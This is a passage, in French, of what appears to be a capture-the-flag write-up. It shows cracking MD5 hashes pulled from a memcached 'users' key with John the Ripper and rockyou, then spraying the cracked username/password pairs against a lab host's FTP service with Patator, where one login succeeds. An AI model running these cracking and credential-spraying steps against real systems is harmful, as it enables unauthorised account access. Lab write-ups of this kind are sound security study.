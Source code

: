 Cela ne m'a pas amené beaucoup plus loin mais a eu le bénéfice de débloquer le *memcached* puisqu'en redemandant la clé *users* celle-ci était désormais non vide :)  

L'output étant trop important je ne le posterais pas ici mais la clé est en réalité un dictionnaire JSON où les clés sont les noms d'utilisateurs et les valeurs des hashs MD5.  

Je n'ai pas gardé le script pour convertir le JSON en des lignes prêtes pour JTR mais ça pourrait se faire en one-liner pour toute personne maîtrisant bien Python.  

```plain
$ john --format=Raw-MD5 --wordlist=rockyou.txt hashes.txt
Loaded 495 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 12x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
    Password1        (admin)
    piggy            (abbigail)
    monkeyman        (ona)
    strength         (irma)
    blaster          (alec)
    megadeth         (wendell)
    misfits          (aglae)
    lovesucks1       (rick)
    Princess1        (genevieve)
    default          (default)
    hacktheplanet    (d_murphy)
    demo             (demo)
```

*Patator* est toujours à l'aise que ce soit en FTP :  

```plain
$ patator ftp_login user=COMBO00 password=COMBO01 0=combo.txt host=10.10.10.86 -t 1 --rate-limit=5
09:59:11 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-13 09:59 CET
09:59:11 patator    INFO -
09:59:11 patator    INFO - code  size    time | candidate                          |   num | mesg
09:59:11 patator    INFO - -----------------------------------------------------------------------------
09:59:19 patator    INFO - 530   16     3.580 | admin:Password1                    |     1 | Login incorrect.
09:59:27 patator    INFO - 530   16     2.474 | abbigail:piggy                     |     2 | Login incorrect.
09:59:35 patator    INFO - 530   16     2.771 | ona:monkeyman                      |     3 | Login incorrect.
09:59:48 patator    INFO - 530   16     3.224 | irma:strength                      |     4 | Login incorrect.
09:59:56 patator    INFO - 530   16     2.991 | alec:blaster                       |     5 | Login incorrect.
10:00:04 patator    INFO - 530   16     2.759 | wendell:megadeth                   |     6 | Login incorrect.
10:00:17 patator    INFO - 530   16     2.872 | aglae:misfits                      |     7 | Login incorrect.
10:00:25 patator    INFO - 530   16     2.971 | rick:lovesucks1                    |     8 | Login incorrect.
10:00:30 patator    INFO - 230   17     0.106 | genevieve:Princess1                |     9 | Login successful.
10:00:38 patator    INFO - 530   16     2.755 | default:default                    |    10 | Login incorrect.
10:00:46 patator    INFO - 530   16     2.853 | d_murphy:hacktheplanet             |    11 | Login incorrect.
10:00:54 patator    INFO - 530   16     3.293 | demo:demo                          |    12 | Login incorrect.
10:00:55 patator    INFO - Hits/Done/Skip/Fail/Size: 12/12/0/0/12, Avg: 0 r/s, Time: 0h 1m 44s
```
